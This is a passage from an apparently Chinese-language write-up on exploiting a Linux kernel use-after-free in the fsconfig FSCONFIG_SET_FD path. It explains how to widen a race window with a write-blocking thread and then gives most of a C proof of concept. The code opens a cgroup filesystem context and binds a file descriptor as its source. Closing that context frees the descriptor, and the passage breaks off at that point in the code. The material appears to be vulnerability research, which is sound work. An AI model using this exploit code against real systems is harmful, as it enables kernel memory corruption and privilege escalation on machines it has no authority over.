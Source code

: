 如上所示，我们创建了`thread1`来写入大量数据。如此一来，`thread2`先进行校验文件权限后，在欲图写入文件内容时，会被阻塞。因此，在`thread2`到`write`这个过程中的时间窗口将会大大延长，我们将其替换为`victim`的`file`结构体的概率将会大大增加。

### POC

使用改进后的思想，我们可以写出`poc`如下：

```c
#include "ltfallkernel.h"
#include <linux/kcmp.h>
#include <sys/stat.h>
#include <assert.h>


#define NR_PAGE 0x40000
#define MAX_FILE_NUM 1000

int uaf_fd;
int run_write;
int run_spray;
int fds[MAX_FILE_NUM];

static void change_tmp_dir(void)
{
    system("rm -rf exp_dir;");
    system("mkdir exp_dir;");
    system("touch exp_dir/data;");

    char *tmpdir = "exp_dir";
    if (chmod(tmpdir, 0777))
    {
        err_exit("chmod failed");
    }
    if (chdir(tmpdir))
    {
        err_exit("chdir failed");
    }
}

void trigger()
{
    // 使用 fsopen 打开一个文件系统，获得文件系统描述符
    int fs_fd = syscall(__NR_fsopen, "cgroup", 0);
    if (fs_fd < 0)
    {
        err_exit("popen failed");
    }

    symlink("./data", "./uaf"); // 创建一个软链接来进行写，是为了避免打开文件后被加锁

    uaf_fd = open("./uaf", 1);
    if (uaf_fd < 0)
    {
        err_exit("failed open symbolic file uaf.");
    }

    // 调用fsconfig，走FSCONFIG_SET_FD，其值为5
    // 存在漏洞导致fc->source = victim的file结构体
    if (syscall(__NR_fsconfig, fs_fd, 5, "source", 0, uaf_fd))
    {
        err_exit("fsconfig");
    }

    close(fs_fd); // 关闭fs_fd时，会同时关闭uaf_fd造成uaf
```